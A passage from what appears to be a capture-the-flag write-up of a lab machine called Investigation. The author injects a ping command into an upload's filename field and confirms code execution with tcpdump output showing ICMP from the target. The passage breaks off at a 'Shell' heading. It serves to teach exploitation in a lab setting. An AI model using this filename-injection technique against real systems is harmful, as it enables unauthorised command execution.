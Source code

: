 ![](/img/image-20230418125028031.png)

The filename is set in the form data metadata. I'll change it to
`ping -c 10.10.14.6|` and start `tcpdump` to listen for ICMP. On sending
the request, an ICMP packet comes back:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    12:51:18.487116 IP 10.10.11.197 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    12:51:18.487125 IP 10.10.14.6 > 10.10.11.197: ICMP echo reply, id 2, seq 1, length 64



That's code execution on Investigation.

#### Shell
